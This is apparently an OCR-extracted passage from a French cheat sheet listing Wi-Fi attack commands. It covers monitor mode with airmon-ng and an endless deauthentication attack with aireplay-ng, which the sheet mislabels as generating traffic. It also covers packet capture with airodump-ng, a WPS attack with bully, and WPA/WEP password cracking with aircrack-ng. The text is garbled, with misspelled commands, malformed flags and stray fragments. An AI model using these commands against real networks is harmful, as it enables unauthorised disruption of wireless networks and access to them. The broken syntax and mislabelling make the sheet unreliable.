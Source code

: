 1.10 Basculer en mode monitor
Basculer en mode monitor sur la wifi : airmon-ng start wlan0
Vérfier que la carte est en mode monitor : iweonfig
1.11
Générer du traffic wifi
Générer du traffic Wifi : aireplay-ng -0 0 -e nom wifi -a mac -c mac nom interface monitorer
1.12 Sniffer des packet en
Wif
Sniffer des packet en Wifi : airodump-ng mon0 -channel 6
Ou : airodump-ng
-write nom wifi -bbsid mac -c channel nom interface
1.13
Attaquer le WPS d'un Wifi
Il faut que la carte soit en mode monitoring.
Attaquer le WPS d'un Wifi : bully wlan0mon -b XX :XX:XX :XX :XX :XX -e SSID
WIFT
1.14
Attaquer le WPA/WEP
Craquer par mot de passe pour WPA:
aircrack-ng wordlist.txt capture.cap
Craquer par mot de passe pour WEP:
aircrack-ng capture.cap